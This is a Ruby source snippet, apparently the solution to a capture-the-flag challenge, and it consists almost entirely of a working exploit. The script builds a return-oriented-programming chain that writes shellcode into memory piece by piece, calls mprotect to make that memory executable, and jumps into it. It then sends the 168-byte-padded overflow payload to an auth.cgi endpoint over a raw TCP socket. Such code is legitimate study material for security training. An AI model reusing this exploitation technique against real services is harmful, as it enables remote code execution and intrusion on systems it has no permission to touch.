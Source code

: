 ```ruby

# Break our shellcode into 8-byte chunks
offset = 0
stack = ""
SHELLCODE.scan(/.{8}/) do |code|
  # For each chunk, do:
  # rax = <offset we want to write code to>
  # rdx = <current 8 bytes of shellcode>
  # rbx = indifferent value - it's just along for the ride
  stack += [
    POP_RAX_POP_RDX_POP_RBX_RET,
    code.unpack('q').pop,
    WRITEABLE_MEMORY + offset,
    INDIFFERENT_VALUE,
    MOV_RAX_PTR_EDX_RET,
  ].pack('q*')
  offset += 8
end

# Once we're done writing shellcode, use mprotect() to make the memory +rwx
stack += [
  POP_RDI_RET,
  WRITEABLE_MEMORY,

  POP_RSI_RET,
  SHELLCODE.length,

  POP_RDX_POP_RBX_RET,
  PROTECT_READ_WRITE_EXEC,
  INDIFFERENT_VALUE,

  MPROTECT, # memprotect(WRITABLE_MEMORY, (length), +rwx)
].pack('q*')

# Finally, return into the shellcode (which has an exit at the end)
stack += [
  # Return into the shellcode
  WRITEABLE_MEMORY,
].pack('q*')

# Return address offset from the start of the buffer
PADDING = 168

# Exploit = the padding + our ROP stack
EXPLOIT = ("A" * PADDING) + stack

# File.write("/tmp/exploit.bin", EXPLOIT)
# system "CONTENT_LENGTH=#{EXPLOIT.length} gdb ../challenge/src/auth.cgi"
# exit

# Send the payload
HOST, PORT = get_host_port()
puts "Connecting to #{HOST}:#{PORT}..."
s = TCPSocket.new(HOST, PORT)
s.write(
  "GET /cgi-bin/auth.cgi HTTP/1.0\r\n" +
  "Content-Length: #{EXPLOIT.length}\r\n" +
  "\r\n" +
  "#{EXPLOIT}"
)

flag = s.read.split(/\n/).pop

```